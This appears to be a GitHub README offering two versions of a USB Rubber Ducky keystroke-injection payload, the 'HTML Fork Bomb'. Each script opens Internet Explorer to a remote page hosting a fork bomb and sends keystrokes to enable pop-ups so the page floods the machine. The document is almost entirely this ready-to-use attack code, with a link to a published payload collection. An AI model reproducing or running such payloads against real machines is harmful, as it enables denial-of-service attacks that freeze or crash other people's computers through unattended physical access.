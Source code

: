 # Rubber-Ducky_HTML_Fork-Bomb
A quickly Rubber Ducky HTML Fork Bomb Attack. WATTAH!!!!!!


![Alt text](https://raw.githubusercontent.com/JonnyBanana/HTML-Fork-Bomb.github.io/master/img/61l9sMFJ7pL._SX425_.jpg)

<h3> V1 </h3>

REM HTML Fork Bomb by Jonny Banana </BR>
DELAY 2000 </BR>
CONTROL ESCAPE </BR>
DELAY 200 </BR>
STRING C:\Program Files\Internet Explorer\iexplore.exe https://jonnybanana.github.io/HTML-Fork-Bomb.github.io/ </BR>
DELAY 200 </BR>
ENTER </BR>
REM set a long delay  to give time to this disgusting browser </BR>
DELAY 1000 </BR>
REM it's time to enable Pop-Up </BR>
TAB </BR>
DELAY 200 </BR>
ENTER </BR>

</BR>

<h3> V2 </h3>

<br>

<P> This Version it's optimized and worlk also for Win 10 </p>

REM HTML Fork Bomb by Jonny Banana </BR>
DELAY 2000 </BR>
GUI R </BR>
DELAY 200 </BR>
REM this string of code has been optimized under the advice of Darren Kitchen
REM https://github.com/hak5/usbrubberducky-payloads/pull/6
STRING iexplore.exe https://jonnybanana.github.io/HTML-Fork-Bomb.github.io/ </BR>
DELAY 200 </BR>
ENTER </BR>
REM set a long delay  to give time to this disgusting browser </BR>
DELAY 1000 </BR>
REM it's time to enable Pop-Up </BR>
TAB </BR>
DELAY 200 </BR>
ENTER </BR>


</BR>

You can also find the following payload in the Hak5 Website at this address:</BR>
https://hak5.org/blogs/payloads/html-fork-bomb

